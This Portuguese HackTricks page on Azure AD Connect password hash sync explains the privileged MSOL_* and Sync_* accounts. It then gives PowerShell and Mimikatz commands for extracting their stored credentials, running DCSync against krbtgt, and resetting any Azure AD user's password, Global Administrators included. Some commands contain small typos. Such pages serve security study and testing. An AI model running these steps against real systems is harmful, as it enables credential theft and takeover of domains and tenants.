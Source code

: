 # Az - PHS - Sincronização de Hash de Senha

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

**Sincronização de hash de senha** é um dos métodos de login usados para alcançar identidade híbrida. **Azure AD Connect** sincroniza um hash, do hash, da senha de um usuário de uma instância do Active Directory local para uma instância do Azure AD baseada na nuvem.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

É o **método mais comum** usado por empresas para sincronizar um AD local com o Azure AD.

Todos os **usuários** e um **hash dos hashes de senha** são sincronizados do local para o Azure AD. No entanto, **senhas em texto claro** ou os **hashes originais** não são enviados para o Azure AD.
Além disso, grupos de segurança **Built-in** (como administradores de domínio...) **não são sincronizados** com o Azure AD.

A **sincronização de hashes** ocorre a cada **2 minutos**. No entanto, por padrão, **expiração de senha** e **expiração de conta** **não são sincronizadas** no Azure AD. Assim, um usuário cuja **senha local expirou** (não alterada) pode continuar a **acessar recursos do Azure** usando a senha antiga.

Quando um usuário local deseja acessar um recurso do Azure, a **autenticação ocorre no Azure AD**.

**PHS** é necessário para recursos como **Proteção de Identidade** e Serviços de Domínio AAD.

## Pivoting

Quando o PHS está configurado, algumas **contas privilegiadas** são automaticamente **criadas**:

* A conta **`MSOL_<installationID>`** é criada automaticamente no AD local. Esta conta recebe uma função de **Contas de Sincronização de Diretório** (veja [documentação](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) o que significa que ela tem **permissões de replicação (DCSync) no AD local**.
* Uma conta **`Sync_<nome do servidor ADConnect local>_installationID`** é criada no Azure AD. Esta conta pode **redefinir a senha de QUALQUER usuário** (sincronizado ou apenas na nuvem) no Azure AD.

As senhas das duas contas privilegiadas anteriores são **armazenadas em um servidor SQL** no servidor onde o **Azure AD Connect está instalado.** Administradores podem extrair as senhas desses usuários privilegiados em texto claro.
O banco de dados está localizado em `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

É possível extrair a configuração de uma das tabelas, sendo uma criptografada:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A **configuração criptografada** é criptografada com **DPAPI** e contém as **senhas do usuário `MSOL_*`** no AD local e a senha do **Sync\_\*** no AzureAD. Portanto, comprometendo essas informações é possível elevar privilégios no AD e no AzureAD.

Você pode encontrar uma [visão geral completa de como essas credenciais são armazenadas e descriptografadas nesta palestra](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando o **servidor Azure AD connect**

Se o **servidor onde o Azure AD connect está instalado** estiver associado ao domínio (recomendado na documentação), é possível encontrá-lo com:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusando do MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Você também pode usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obter essas credenciais.
{% endhint %}

### Abusando do Sync\_\*

Comprometer a conta **`Sync_*`** possibilita **redefinir a senha** de qualquer usuário (incluindo Administradores Globais)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Também é possível **modificar as senhas apenas de usuários da nuvem** (mesmo que isso seja inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
É possível também extrair a senha deste usuário.

{% hint style="danger" %}
Outra opção seria **atribuir permissões privilegiadas a um principal de serviço**, o que o usuário **Sync** tem **permissões** para fazer, e então **acessar esse principal de serviço** como uma forma de elevação de privilégios.
{% endhint %}

### Seamless SSO

É possível usar o Seamless SSO com PHS, que é vulnerável a outros abusos. Verifique em:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
